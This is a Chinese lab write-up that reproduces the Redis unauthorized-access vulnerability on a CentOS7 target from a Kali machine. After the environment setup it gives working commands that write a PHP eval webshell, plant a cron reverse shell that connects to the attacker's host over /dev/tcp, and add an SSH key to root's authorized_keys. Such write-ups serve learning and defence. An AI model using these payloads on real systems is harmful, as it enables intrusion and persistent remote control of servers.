﻿@[TOC](redis未授权访问漏洞复现)
## 一、redis简介
当一个客户端往服务器发送请求，服务器可以正常响应，但是当有成千上万个客户端同时向服务器发送请求时，服务器的压力很大，就有可能导致服务器的效率降低。

于是可以在服务器和客户端中间建立一个redis，当客户端向服务器发送请求，服务器在响应的同时，将服务器响应的数据缓存在redis中，下一次客户端发送请求时，先在redis缓存中寻找是否有需要的数据，如果找到就从redis返回数据，否则再向服务器请求数据，然后将新的响应数据缓存在redis中，redis作为中间缓存来缓解服务器的压力，更详细的介绍参考https://www.redis.com.cn/redis-intro.html
## 二、未授权漏洞简介
在部署 Redis 时，如果安全配置不当，可能导致除了管理员以外的其他用户也可以未经授权地访问 Redis 服务，从而引发数据泄露、命令执行等严重安全问题。

Redis 由客户端工具 redis-cli 和服务端程序 redis-server 组成。默认情况下，Redis 仅绑定本地地址 127.0.0.1，只允许本地访问。然而，为了远程管理的便利，一些管理员会修改配置文件，将绑定地址改为 0.0.0.0，使 Redis 暴露在公网环境中。

与此同时，Redis 默认不启用身份验证机制（requirepass 未配置），且使用默认端口 6379。这意味着一旦 Redis 暴露在公网，攻击者无需密码即可连接并执行任意命令，从而造成数据泄露、恶意数据写入、甚至远程控制等安全风险。
## 三、漏洞利用
实验靶机 centos7 ，攻击机 kali
实验工具：
xshell (用于连接centos7和kali方便操作)
中国蚁剑 (安装在kali上用于对靶机的webshell连接)

### 1.漏洞环境搭建
这里在靶机上通过命令行部署redis，版本为6.2.13
下载redis-6.2.13压缩包
```
wget http://download.redis.io/releases/redis-6.2.13.tar.gz
```
在压缩包目录下解压并进入目录
```
tar xzf redis-6.2.13.tar.gz
cd redis-6.2.13
```
编译安装
```
make
sudo make install
```
接下来是修改配置文件用于复现漏洞
先找到配置文件redis.conf所在目录下编辑配置文件
```
vim redis.conf
```
将允许访问的地址从 bind 127.0.0.1 修改为 bind 0.0.0.0 ,这样攻击机kali才能访问靶机的redis

守护进程修改为yes方便后台运行 daemonize yes

在centos7上安装 redis-cli
```
sudo yum install redis -y
```
在kali上安装 redis-cli 
```
sudo install redis-tools
```
这里建议添加 redis 为服务，这样可以使用 systemctl 来控制 redis
首先新建一个系统文件
```
vim /etc/systemd/system/redis.service
```
再往文件中写入
```
[Unit]
Description=Redis Server
After=network.target

[Service]
Type=forking
ExecStart=/usr/local/bin/redis-server /root/redis-6.2.13/redis.conf
ExecStop=/usr/local/bin/redis-cli shutdown
PrivateTmp=true

[Install]
WantedBy=multi-user.target

```
注意：ExecStart=/usr/local/bin/redis-server /root/redis-6.2.13/redis.conf中的两个文件redis-server和redis-conf的位置每个人的电脑可能不同，以实际位置为准

然后重载系统服务并重启主机
```
systemctl daemo-reload
reboot
```
接下来就可以使用 systemctl 命令来控制redis
启动redis
```
systemctl start redis
```
查看redis服务是否开启
```
systemctl status redis
```
如图即成功开启redis服务
![](https://i-blog.csdnimg.cn/direct/3c6da71ff7cc43848cde4869d678e7fe.bmp#pic)
从靶机centos7上进入redis客户端服务
```
redis-cli
```
如图即成功进入
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a86e6097dd674abe92fe68a0eb15f940.bmp#pic)

从攻击机kali上尝试连接靶机的redis服务
```
redis-cli -h <靶机的IP地址> -p 6379
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3874d3188f844d6599d7e2f6fe4a9dd3.bmp#pic_)
这样就说明整个漏洞环境搭建完成了
### 2.利用漏洞写入webshell
前提:
1.知道网站根目录的绝对路径，因为需要把木马文件写入到目录下
2.目标网站根目录有写入权限

已知靶机的网站根目录为/www/server/phpmyadmin，在kali执行指令

设置工作目录
```
config set dir /www/server/phpmyadmin
```
设置数据文件保存名并保存
```
config set dbfilename webshell.php
save
```
写入一句话木马并保存
```
set webshell "<?php @eval($_POST['pass']); ?>"
save

```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/632590f3d55c4f8db2aa602779968e8a.bmp#pic_left)

然后就可以在蚁剑上连接了

### 3.通过定时任务反弹shell
用攻击机kali连接上目标机的redis-cli

首先设置工作目录
```
config set dir /var/spool/cron
```
查看是否设置成功
```
config get dir
```
设置文件保存名，redis的定时任务保存在用户名同名的目录下，如果用root用户进入redis,那么就将文件命名为root
```
config set dbfilename root
save
```
再打开一个终端，设置监听端口4444
```
nc -lvvp 4444
```
写入定时任务，设置每分钟反弹一次shell
```
set shell "\n\n* * * * * /bin/bash -i >& /dev/tcp/<攻击机的IP>/4444 0>&1\n\n"
save

```
然后就可以在监听窗口接收到反弹的shell
### 4.写入ssh公钥实现免密登录
通过写入公钥到redis服务器所在主机，可以实现ssh免密登录

首先在攻击机kali上生成公钥，默认存放在/root/.ssh目录下
```
ssh-keygen
```
再将公钥拷贝到靶机的/root/.ssh/authorized_keys里
```
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
set ssh "<kali生成的公钥>"
save
```

然后就可以在kali上ssh远程免密登录redis主机了
```
ssh -i ~/.ssh/<你的私钥> root@<redis主机的IP>
```
### 5.复现过程常见问题
1）在执行 config set /var/spool/cron命令时有可能会提示
```
config set dir /var/spool/cron
(error) ERR CONFIG SET failed (possibly related to argument 'dir') - can't set protected config
```
这是说 redis 不允许在运行时修改一些受保护的配置项，比如 'dir' ,可以尝试修改redis 的配置文件 redis.conf 来解决

在 redis.conf 中找到 dir 一行改成
```
dir /var/spool/cron/
```
将保护模式关掉（仅适用于测试漏洞，实际生产不要关）
```
protected-mode no    #把yes改为no
```
保存配置再重启 redis 服务

如果执行以上操作都不行的话，多半就是版本太高了，在测试时也使用过7.2.0版本的 redis 服务，尝试多种方法依然报错，换成6.2.13版本以后就可以正常测试

2）在写入ssh公钥时，redis 主机上的 /root/ 目录下如果不存在 .ssh 目录，由于config 命令不能直接创建目录，通常测试时直接在 redis 主机上创建对应的目录，在实际中可能需要通过其他手段比如反弹shell获得shell再创建对应的目录，或者通过写入木马，用蚁剑连接后再创建目录
